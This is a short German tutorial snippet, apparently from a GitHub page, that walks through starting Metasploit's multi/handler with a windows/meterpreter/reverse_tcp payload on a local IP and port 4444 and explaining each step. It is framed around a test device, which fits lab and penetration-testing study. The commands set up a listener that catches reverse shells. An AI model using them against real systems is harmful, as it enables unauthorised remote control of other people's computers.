 # Start Metapreter Console

```bash
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.53.197
set LPORT 4444
exploit
```

**Erklärung:**

1. **msfconsole starten:** Öffne in Kali Linux ein Terminal und starte Metasploit mit `msfconsole`.
2. **Multi/Handler laden:** Mit `use exploit/multi/handler` wechselst du in den entsprechenden Modus, um auf eingehende Verbindungen zu warten.
3. **Payload festlegen:** Mit `set PAYLOAD windows/meterpreter/reverse_tcp` legst du den Payload fest. (Falls du einen anderen Payload verwendest – z. B. für Linux – musst du diesen entsprechend anpassen.)
4. **Listener konfigurieren:** `set LHOST 192.168.53.197` und `set LPORT 4444` konfigurieren die IP-Adresse und den Port, an dem der Listener Verbindungen erwartet.
5. **Listener starten:** Mit `exploit` startest du den Listener. Sobald dein Testgerät den Payload ausführt, sollte sich eine Meterpreter-Shell öffnen.

Achte darauf, dass etwaige Firewalleinstellungen den Zugriff auf Port 4444 nicht blockieren und der Payload zu deiner Zielplattform passt.
